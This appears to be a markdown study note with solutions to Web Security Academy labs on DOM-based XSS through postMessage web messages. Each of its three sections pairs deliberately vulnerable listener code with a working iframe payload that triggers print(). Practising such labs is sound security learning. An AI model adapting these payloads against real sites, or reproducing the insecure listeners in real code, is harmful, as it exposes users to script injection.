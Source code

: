# DOM-based Vulnerability

### DOM XSS using web messages
* Vulnerable Code - `addEventListener()` listens for a web message
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
* Payload - By adding a wrong `src` and `enerror=` function will cause `print()`
```html
<iframe src="https://ac7e1f1c1f3ed2d1c06281a0005800be.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL
* Vulnerable Code - `indexOf` looks for http: or https: in the message body
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acf31f5e1e1ff65ec0851f1800fc00fa.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### DOM XSS using web messages and JSON.parse
* Vulnerable Code
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acbe1f971f2cee6bc0482be200600037.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
